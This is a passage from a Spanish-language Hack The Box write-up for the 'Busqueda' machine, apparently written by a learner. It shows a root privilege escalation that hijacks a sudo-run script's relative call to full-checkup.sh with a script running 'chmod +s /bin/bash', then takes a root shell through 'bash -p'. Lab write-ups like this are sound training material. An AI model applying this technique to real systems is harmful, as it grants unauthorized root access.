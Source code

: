 Ahora ya entendemos por qué no funcionaba la 3ª opción del script (full-checkup), ya que se está llamando de forma relativa a **full-checkup.sh**.

De esta forma, debería bastar con generar ese nombre de fichero con permisos de ejecución en un directorio en el que tengamos escritura, por lo que crearemos este script:

~~~bash
#!/bin/bash

chmod +s /bin/bash
~~~

Vamos a ello:

~~~bash
svc@busqueda:/tmp$ cd ~
svc@busqueda:~$ nano full-checkup.sh
svc@busqueda:~$ chmod +x full-checkup.sh
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
[sudo] password for svc: 

[+] Done!
svc@busqueda:~$ bash -p
bash-5.1# cd /root
bash-5.1# ls
ecosystem.config.js  root.txt  scripts  snap
bash-5.1# cat root.txt
~~~

Con esto hemos finalizado la máquina. Las de Hack The Box son bastante más complejas y se me atragantan en ciertos puntos bastante, pero están bien porque se aprenden muchas cosas. Nos vemos en la siguiente.
